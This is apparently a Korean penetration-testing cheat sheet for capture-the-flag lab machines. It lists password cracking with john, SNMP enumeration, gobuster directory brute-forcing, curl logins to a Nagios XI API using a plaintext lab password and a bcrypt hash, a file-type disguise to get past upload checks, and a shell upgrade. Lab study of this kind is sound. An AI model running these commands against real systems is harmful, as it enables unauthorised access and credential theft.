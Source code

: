 ### john
```
john hash -w=/usr/share/wordlists/rockyou.txt
```

### snmpwalk
```
snmpwalk -v 2c -c public pinocure.com
snmpwalk -v 1 -c public 10.10.11.136
```
```
curl -XPOST -k -L 'http://pinocure.com/nagiosxi/api/v1/authenticate' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=60' | jq
```

### python 서버
```
sudo python3 -m http.server 3000
```

### gobuster
```
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -e -t 100 -u http://pinocure.com -b 403,404
gobuster dir -u http://pinocure.com/ -w /usr/share/wordlists/dirb/common.txt
```

### curl
```
curl -X POST http://intentions.htb/api/v2/auth/login
curl -X POST http://intentions.htb/api/v1/auth/login
curl -d 'email=steve@pinocure.com&hash=$2y$10$M/g27T1kJcOpYOfPqQlI3.YfdLIwr3EWbzWOLfpoTtjpeMqpp4twa' -X POST http://pinocure.com/api/v2/auth/login
```

### 파일 형식 변경
```
zip info.zip info.php
chmod 777 info.zip
mv info.zip info.txt
```


<br>


---

## 초기침투


### full tty
```
script /dev/null -c bash
```
